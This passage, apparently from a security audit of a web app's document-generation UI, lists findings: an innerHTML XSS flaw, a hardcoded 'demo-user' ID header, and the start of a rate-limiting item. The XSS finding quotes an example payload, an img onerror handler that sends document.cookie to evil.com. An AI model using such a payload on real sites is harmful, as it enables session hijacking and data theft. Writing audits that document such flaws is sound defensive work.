 ```
                          ↓
┌─────────────────────────────────────────────────────────┐
│                     UI Rendering                         │
│  - Update progress indicators (✅ checkmarks)            │
│  - Render document preview                              │
│  - Show success message                                 │
│  - Enable "View in Module" button                       │
└─────────────────────────────────────────────────────────┘
```

---

## Security Considerations

### 1. **XSS Vulnerabilities** (CRITICAL)

**Affected Lines**: 849-856, 963-976, 1027-1086

**Risk Level**: 🔴 **HIGH**
**Impact**: Arbitrary JavaScript execution, session hijacking, data theft
**Remediation Priority**: IMMEDIATE

**Vulnerable Code**:
```javascript
// Line 1030
preview.innerHTML = `<div>${generatedDocument.title}</div>`;
```

**Attack Vector**:
```javascript
// Malicious API response
{
  "data": {
    "document": {
      "title": "<img src=x onerror='fetch(\"https://evil.com?cookie=\" + document.cookie)'>"
    }
  }
}
```

### 2. **Hardcoded User ID** (Line 986)

```javascript
headers: {
    'Content-Type': 'application/json',
    'x-user-id': 'demo-user'  // ❌ Everyone is same user!
}
```

**Risk Level**: 🟡 **MEDIUM**
**Impact**: No access control, all documents belong to "demo-user"
**Fix**: Implement proper authentication

### 3. **No Rate Limiting**
